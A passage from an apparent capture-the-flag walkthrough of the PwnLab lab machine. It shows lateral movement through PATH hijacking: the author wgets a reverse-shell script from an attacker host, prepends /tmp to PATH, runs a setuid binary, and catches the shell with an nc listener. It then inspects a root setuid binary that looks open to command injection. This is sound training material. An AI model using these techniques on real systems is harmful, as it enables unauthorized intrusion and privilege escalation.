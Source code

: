 ```bash
__gmon_start__
GLIBC_2.0
PTRh 
QVh[
[^_]
cat /home/mike/msg.txt
;*2$"(
GCC: (Debian 4.9.2-10) 4.9.2
GCC: (Debian 4.8.4-1) 4.8.4
...
```
I can see cat is being called by referring to it's location in the PATH variable. I should be able to change this to run code as Mike.

### 8. Lateral movement
Firstly I create a python file that will connect back to me and give me a reverse shell. I call it "cat". Download it to the target inside /tmp, change the PATH variable to check /tmp first, then run the msgmike program. 
```bash
kane@pwnlab:/tmp$ wget http://192.168.34.141:8000/cat
--2021-03-12 22:55:07--  http://192.168.34.141:8000/cat
Connecting to 192.168.34.141:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 249 [application/octet-stream]
Saving to: ‘cat’

cat                 100%[=====================>]     249  --.-KB/s   in 0s     

2021-03-12 22:55:07 (28.2 MB/s) - ‘cat’ saved [249/249]

kane@pwnlab:/tmp$ chmod +x cat
kane@pwnlab:/tmp$ export PATH=/tmp/:$PATH
kane@pwnlab:/tmp$ echo $PATH
/tmp/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
kane@pwnlab:/tmp$ cd ~/
kane@pwnlab:~$ ./msgmike
./msgmike
```
The binary executes my custom "cat" script and connects back to me.
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 9998           
listening on [any] 9998 ...
connect to [192.168.34.141] from (UNKNOWN) [192.168.34.151] 54458
$ id  
uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)
```

### 9. Enumerate from new user
Mike also has a setuid binary in their home, this one is for root.
```bash
mike@pwnlab:/home/mike$ ls -l
total 8
-rwsr-sr-x 1 root root 5364 Mar 17  2016 msg2root

mike@pwnlab:/home/mike$ strings msg2root
...
GLIBC_2.0
PTRh
[^_]
Message for root: 
/bin/echo %s >> /root/messages.txt
;*2$"(
```
